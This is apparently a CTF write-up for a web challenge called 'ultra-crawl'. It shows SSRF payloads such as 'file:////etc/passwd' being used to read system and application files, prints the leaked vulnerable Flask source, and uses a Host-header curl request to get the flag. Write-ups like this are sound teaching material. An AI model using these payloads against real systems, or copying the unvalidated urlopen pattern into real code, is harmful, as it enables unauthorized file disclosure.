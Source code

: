 # Challenge: ultra-crawl

## Description
Here is your favorite proxy for crawling minimal websites.

## Initial Reconnaissance

First step we open the website and see simple interface where you input a link and it will crawl it.

![alt text](image.png)

From the beginning I can say that this will be an SSRF challenge so I will go right into Burp Suite.

## Setting Up

We are going to set up the proxy, catch the POST request and then send to Repeater so we can play with it.

## Exploitation

After trying many SSRF techniques like trying to access localhost or other things I got something positive:

![alt text](image-1.png)

Sending `file:////etc/passwd` as the payload exposes the passwd file, where we can see the ctf user.

### File System Enumeration

We are going to leak the ctf directory for files.

We leaked the app.py code:

![alt text](image-2.png)

by using the payload: `file:////home/ctf//app.py`

### Source Code Analysis

The code is:

```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 774
Server: Werkzeug/2.0.1 Python/3.6.9
Date: Fri, 10 Oct 2025 14:40:52 GMT

import base64
from urllib.request import urlopen
from flask import Flask, render_template, request

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    print(request.headers['Host'])
    if request.headers['Host'] == "company.tld":
        flag = open('sir-a-random-folder-for-the-flag/flag.txt').read()
        return flag
    
    if request.method == 'POST':
        url = request.form.get('url')
        output = urlopen(url).read().decode('utf-8')
        if base64.b64decode("Y3Rmew==").decode('utf-8') in output:
            return "nope! try harder!"
        return output
    else:
        return render_template("index.html")

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False, threaded=True, use_evalex=False)
```

### Finding the Vulnerability

The important line of the code is this:

```python
if request.headers['Host'] == "company.tld":
    flag = open('sir-a-random-folder-for-the-flag/flag.txt').read()
    return flag
```

So if we send a request with that specific header as host it will give us the flag.

## Solution

The crafted payload that gives us the flag is:

```bash
curl -H "Host: company.tld" <IP:PORT>
```